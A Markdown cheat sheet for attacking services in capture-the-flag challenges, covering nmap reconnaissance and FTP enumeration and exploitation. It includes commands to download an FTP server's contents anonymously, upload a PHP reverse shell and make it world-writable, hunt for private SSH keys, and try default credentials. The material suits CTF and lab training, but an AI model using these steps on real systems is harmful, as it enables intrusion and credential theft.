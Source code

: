 # 🚩 CTF Port Exploitation Cheat Sheet
> *Complete guide for attacking common services in CTF challenges*  
> ⚠️ **ONLY use on authorized CTF boxes or your own lab**


## 🔍 Initial Recon
```bash
# Quick scan
nmap -sV -sC -oN initial.txt $TARGET

# Full port scan
nmap -p- -T4 -oN allports.txt $TARGET

# UDP scan
nmap -sU --top-ports 20 -oN udp.txt $TARGET
```

---

## 📁 Port 21 - FTP
**Service:** File Transfer Protocol  
**Common vulns:** Anonymous access, cleartext creds, directory traversal

### Enumeration
```bash
# Check anonymous access
ftp $TARGET
Username: anonymous
Password: anonymous

# Nmap script scan
nmap --script ftp-* -p 21 $TARGET
```

### Exploitation
```bash
# Download everything
wget -r ftp://anonymous:anonymous@$TARGET

# Upload reverse shell (if writable)
ftp> put shell.php
ftp> site chmod 777 shell.php

# Check for exploits
searchsploit vsftpd
searchsploit proftpd
```

### CTF Tips
- Look for: `user.txt`, `flag.txt`, `.ssh/id_rsa`, `backup.zip`
- Try default creds: `admin:admin`, `ftp:ftp`

---